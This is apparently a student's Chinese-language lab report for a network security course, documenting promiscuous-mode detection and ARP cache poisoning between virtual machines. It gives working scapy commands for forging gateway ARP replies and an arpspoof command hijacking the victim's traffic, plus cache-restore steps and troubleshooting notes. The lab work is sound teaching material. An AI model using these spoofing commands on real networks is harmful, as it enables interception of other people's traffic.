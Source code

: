 # 第四章实验

## 网络拓扑

1. 搭建网络拓扑，网络中的结点基本信息如下：

- 攻击者主机
  - 08:00:27:e4:fc:c1 / eth0
  - 172.16.111.107 
  
  ![攻击者主机屏幕](img/攻击者主机屏幕.png)

- 受害者主机
  - 08：00：27：f7:3e:6a / eth0
  - 172.16.111.130
  
  ![受害者主机屏幕](img/受害者主机屏幕.png)

- 网关
  - 08:00:27:71:ac:ba / enp0s9 
  - 172.16.111.1
  
  ![网关](img/网关.png)

## 实验一：检测局域网中的异常中端

- 在受害者主机上检查网卡的`混杂模式`是否启用

  ![检测混杂模式是否开启](img/检测混杂模式是否开启.png)

- 在攻击者主机上开启scapy

  ![开启scapy](img/开启scapy.png)

- 在scapy的交互式终端输入以下代码回车执行
  ```bash
  pkt = promiscping("172.16.111.130")
  ```
  ![promiscping_victim](img/promiscping_victim.png)

- 回到受害者主机，检查`混杂模式`是否启用的输出结果没有PROMISC字符串
  
  ![没有PROMISC](img/检测混杂模式是否开启.png)

- 手动开启该网卡的`混杂模式`
  ```bash
  sudo ip link set eth0 promisc on
  ```

  ![promisc_on](img/promisc_on.png)

- 回到攻击者主机上的scapy交互式终端继续执行命令，观察两次命令的输出结果差异
  
  ![差异](img/两次pkt的差异.png)

- 在受害者主机上，手动关闭该网卡的`混杂模式`
  ```bash
  sudo ip link set eth0 promisc off
  ```

  ![关闭混杂模式](img/关闭混杂模式.png)

## 实验二：手工单步“毒化”目标主机的ARP缓存

- 获取当前局域网的网关MAC地址

  ![局域网网关MAC地址](img/局域网网关mac地址.png)

- 在攻击者主机上构造一个ARP请求，并查看构造好的ARP请求报文详情
  ```bash
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")
  arpbroadcast.show()
  ```

  ![查看arp请求报文详情](img/查看ARP请求报文.png)

- 发送这个ARP广播请求，网关MAC地址如下
  ```bash
  recved = srp(arpbroadcast,timeout=2)
  gw_mac = recved[0][0][1].hwsrc
  ```
  ![发送ARP广播请求](img/发送ARP广播请求.png)

- 伪造网关的ARP响应包，准备发送给受害者主机172.16.111.130
- ARP响应的目的MAC地址设置为攻击者主机的MAC地址
  ```bash
  arpspoofed=Ether()/ARP(op=2,psrc="172.16.111.1", pdst="172.16.111.130",hwdst="08:00:27:e4:fc:c1")
  ```
- 发送上述伪造的ARP响应数据包到受害者主机
  ```bash
  sendp(arpspoofed)
  ```
  ![发送伪造包](img/发送伪造包.png)

- 在受害者主机上查看ARP缓存，会发现网关的MAC地址已被`替换`为攻击者主机的MAC地址，毒害成功
  ![查看受害者主机ARP缓存](img/受害者主机ARP缓存.png)

- 恢复受害者主机的 ARP 缓存记录，伪装网关给受害者发送 ARP 响应。
  ```bash
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:71:ac:ba", pdst="172.16.111.130", hwdst="08:00:27:f7:3e:6a")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
  ![发送恢复包](img/发送恢复包.png)

- 在受害者主机上尝试 ping 网关,静候几秒 ARP 缓存刷新成功，退出 ping,查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ![ARP缓存还原](img/ARP缓存还原.png)

## 实验三：使用自动化工具完成ARP投毒劫持实验

- 安装arpspoof工具
  ```bash
  sudo apt-get install -y dsniff ssldump –fix-missing
  ```
  ![安装成功](img/安装arpspoof.png)
- 用arpspoof工具完成ARP投毒劫持(攻击者伪造成网关`172.16.111.1`，挟持受害者`172.16.111.130`)
  ```bash
  sudo arpspoof -i eth0 -t 172.16.111.130 172.16.111.1
  ```
  ![完成投毒](img/完成投毒.png)

- 终止投毒进程，发现受害者主机ARP缓存自动恢复
  ![自动恢复](img/自动恢复.png)

## 实验中遇到的问题

1. 实验一关闭/开启混杂模式一直失败，切换至root权限后成功
2. 实验二执行下面指令的时候一直报错`Ether not defined`
```bash
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")
```
安装python3-pip后成功，且未遇到依赖冲突
3. 按照老师给的指令伪造网关的ARP响应包发送给受害者主机后，发现发包失败。
```bash
arpspoofed=ARP(op=2,psrc="172.16.111.1", pdst="172.16.111.130",hwdst="08:00:27:e4:fc:c1")
```
对比上一步发的ARP广播包，发现老师给的指令没有加Ether帧头，自行加上后成功
```bash
arpspoofed=Ether()/ARP(op=2,psrc="172.16.111.1", pdst="172.16.111.130",hwdst="08:00:27:e4:fc:c1")
```

## 参考资料

- [网络安全第四章实验指南](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [Arp断网攻击工具-Arpspoof工具安装使用指南](https://baijiahao.baidu.com/s?id=1693283014674555176&wfr=spider&for=pc)
